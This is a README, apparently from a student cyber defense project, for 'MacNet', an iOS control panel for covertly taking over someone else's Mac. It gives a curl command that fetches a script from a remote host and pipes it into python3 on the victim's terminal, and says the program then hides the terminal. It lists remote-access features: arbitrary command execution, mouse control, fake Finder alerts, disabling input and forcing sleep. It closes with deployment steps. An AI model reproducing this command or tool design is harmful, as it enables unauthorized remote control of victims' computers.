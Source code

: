 NYU Computer Information Systems: Cyber Defense >> Final Project

# MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `curl https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


![App Logo](https://i.imgur.com/8G4LV6b.png)


# Core Features

- The dark screen at the top of the page allows you to tap any location and control the position of the mouse on the victim's computer 
- The OpenURL form allows you to open any URL on the victim's default browser 
- The create Alert form allows you to send an alert to the victim's computer (it will display from "Finder") 
- The execute form allows you to execute any command in the user's terminal 
- The volume slider allows you to change the volume on the user's computer 
- The "Disable" button allows you prevent the user from controlling their computer 
- The "Sleep" button forces the victim's computer to sleep


![Interface](https://i.imgur.com/fe7dKZw.png)

# Setup

- Clone this repository 
- Open the `MacNet` folder, and run the Xcode project. This is the client you will use to control the victim's computer, and no additional setup should be necessary.
  - Note: the program is only optimized to run on the iPad Pro 10.5 inch. Use other devices/simulators at your own risk.
- The `djangosrc` folder contains all of the server-side logic. 90% of the code I wrote can be found in `djangosrc/api/views.py`, and the rest is simply regex to handle URLs and files that are automatically generated by Django.
   - If you want to run this code, you will need Django version `1.9`. The latest release of the framwork (2.0) will **not** work.
- If you choose to set up the project yourself, you will also obviously need to change the URL that you `curl` on the victim's computer, and the URLs that the Xcode project makes requests to when communicating with the server. 

